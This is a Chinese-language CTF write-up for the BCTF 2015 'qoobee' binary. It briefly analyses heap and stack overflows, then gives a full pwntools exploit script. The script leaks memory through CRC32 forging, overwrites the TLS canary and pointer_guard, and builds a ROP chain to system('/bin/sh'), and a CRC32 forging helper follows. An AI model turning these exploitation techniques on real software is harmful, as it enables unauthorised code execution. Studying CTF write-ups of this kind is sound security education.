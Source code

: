 ```yaml
---  
layout: post  
title: "bctf_qoobee"  
date: 2015-10-13 21:43:06 +0800  
comments: true  
categories:   
---  
```

###0x00 程序分析  
程序有明显的堆溢出，和一个未被调用的栈溢出函数  
功能3可以泄漏任意地址的内容  
先malloc0x21000在tls前，溢出canary_guard和pointer_guard，把pointer_guard改成0x400d79^一个值  
使用功能2时会进入0x400d79，rop得到shell  
  
###0x01 exp  
  
	from pwn import *
	from binascii import *
	import crc32

	r = process('./qoobee')


	def leak(str, addr, dest):	#leak qword	
		n = (dest - addr -8)/4 + 2
		print n
		res = ''
		for i in range(n):
			r.recvuntil('# ')
			r.send('1\n')
			r.recvuntil('How many dounts you want? ')
			r.send('x'*2040 + p64(addr) + 'aaaaaaaa\n')
			r.recvuntil('# ')
			r.send('3\n')
			r.recvuntil('Input your local system timestamp: ')
			r.send('aaa\n')
			r.recvuntil('Response: ')
			x = int(r.recvuntil('\n')[:-1], 16)
			x = crc32.forge(x, str, 8)[8:]
	#		print hex(u32(x))
	#		print b2a_hex(x)
			str = str[4:]+x
			res += x
			addr += 4
	#		print 'str',b2a_hex(str)
	#		print b2a_hex(res)
		return u64(res[-8:])

	t = leak(p64(0x0000000000601e08), 0x602000, 0x602020)
	libc = t - 5868192
	m_end = libc + 17211392
	tls = m_end - 18624 + 0xc000 - 65536

	payload  = p64(tls)*((145200-0x200)/8)
	print 'tls',hex(tls)
	cookie = leak(p64(tls), tls, tls+0x28)
	print 'cookie',hex(cookie)
	p = leak(p64(tls), tls, tls+0x8)
	print 'p',hex(p)


	payload += p64(0)
	for i in range(0x200/8 - 1):
		tmp = leak(p64(0), tls-0x200, tls - 0x200 + (i+1)*8)
	#	print hex(tls - 0x200 + (i+1)*8), '->',hex(tmp)
		payload += p64(tmp)
	payload += 'a'*(145200%8) 
	payload += p64(tls) + p64(p) + p64(tls) + "cccccccc"*2 + p64(cookie) + p64(0x0400D79 ^ 0x69ea000000000020)


	r.recvuntil('# ')
	r.sendline('1')
	r.recvuntil('How many dounts you want? ')
	r.sendline('135168')
	r.recvuntil(':')
	r.sendline(payload)


	pop_rdi_ret = 0x0000000000401503 
	pop_rbp_ret = 0x0000000000400cb5
	leave_ret = 0x0000000000400ddf
	input = 0x0400E94
	addr = tls - 0x300
	wel = 0x400E55

	lib = ELF('/usr/lib/libc.so.6')
	puts = leak(p64(0x0000000000601e08), 0x602000, 0x602030)
	base = puts - lib.symbols['puts']
	i = lib.search('/bin/sh')
	binsh = i.next() + base 
	system_ = lib.symbols['system'] + base
	print 'binsh',hex(binsh)
	print 'system',hex(system_)

	payload2  = 'a'*0xf8
	payload2 += p64(cookie)
	payload2 += p64(cookie)	#ebp
	payload2 += p64(pop_rdi_ret)	
	payload2 += p64(binsh)	
	payload2 += p64(system_)	

	raw_input()
	r.recvuntil('# ')
	r.sendline('2')
	print r.recvuntil(':')
	r.sendline(payload2)

	r.interactive()



  
crc32  
  
	from struct import pack,unpack  
	import binascii  
  
	# Poly in "reversed" notation -- http://en.wikipedia.org/wiki/Cyclic_redundancy_check  
	POLY = 0xedb88320 # CRC-32-IEEE 802.3  
	#POLY = 0x82F63B78 # CRC-32C (Castagnoli)  
	#POLY = 0xEB31D82E # CRC-32K (Koopman)  
	#POLY = 0xD5828281 # CRC-32Q  
  
	def build_crc_tables():  
	    for i in range(256):  
		fwd = i  
		rev = i << 24  
		for j in range(8, 0, -1):  
		    # build normal table  
		    if (fwd & 1) == 1:  
			fwd = (fwd >> 1) ^ POLY  
		    else:  
			fwd >>= 1  
		    crc32_table[i] = fwd & 0xffffffff  
		    # build reverse table =)  
		    if rev & 0x80000000 == 0x80000000:  
			rev = ((rev ^ POLY) << 1) | 1  
		    else:  
			rev <<= 1  
		    rev &= 0xffffffff  
		    crc32_reverse[i] = rev  
  
	crc32_table, crc32_reverse = [0]*256, [0]*256  
	build_crc_tables()  
  
  
	def crc32(s): # same crc32 as in (binascii.crc32)&0xffffffff  
	  crc = 0xffffffff  
	  for c in s:  
	    crc = (crc >> 8) ^ crc32_table[(crc ^ ord(c)) & 0xff]  
	  return crc ^0xffffffff  
  
  
  
	def forge(wanted_crc, str, pos=None):  
	  if pos is None:  
	    pos = len(str)  
  
	  # forward calculation of CRC up to pos, sets current forward CRC state  
	  fwd_crc = 0xffffffff # <<<< PATCHED!  
	  for c in str[:pos]:  
	    fwd_crc = (fwd_crc >> 8) ^ crc32_table[(fwd_crc ^ ord(c)) & 0xff]  
  
	  # backward calculation of CRC up to pos, sets wanted backward CRC state  
	  bkd_crc = wanted_crc ^0xffffffff # <<<< PATCHED!  
	  for c in str[pos:][::-1]:  
	    bkd_crc = ((bkd_crc << 8)&0xffffffff) ^ crc32_reverse[bkd_crc >> 24] ^ ord(c)  
  
	  # deduce the 4 bytes we need to insert  
	  for c in pack('<L',fwd_crc)[::-1]:  
	    bkd_crc = ((bkd_crc << 8)&0xffffffff) ^ crc32_reverse[bkd_crc >> 24] ^ ord(c)  
  
	  res = str[:pos] + pack('<L', bkd_crc) + str[pos:]  
	  assert(crc32(res) == wanted_crc)  
	  return res  
  
  
###0x02 misc  
  
gdb 查找  
find  
